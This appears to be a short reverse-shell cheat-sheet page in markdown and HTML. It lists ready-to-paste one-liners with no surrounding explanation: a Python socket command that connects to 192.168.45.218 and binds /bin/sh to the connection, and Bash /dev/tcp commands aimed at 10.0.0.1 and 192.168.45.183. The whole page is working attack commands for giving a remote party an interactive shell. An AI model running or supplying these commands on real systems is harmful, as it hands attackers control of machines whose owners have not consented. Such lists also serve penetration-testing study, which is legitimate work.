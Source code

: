 ```yaml
---
title: "Reverse Shells"
---
```


Command:

<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>
  <span style="margin-left: 10px; color: #555;"># Python</span>
  <br>
  <code> </code>
  <span style="margin-left: 10px; color: #555;"># </span>
  <br>
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 /n
  bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
  <span style="margin-left: 10px; color: #555;"># Bash</span>
  <br>
</div>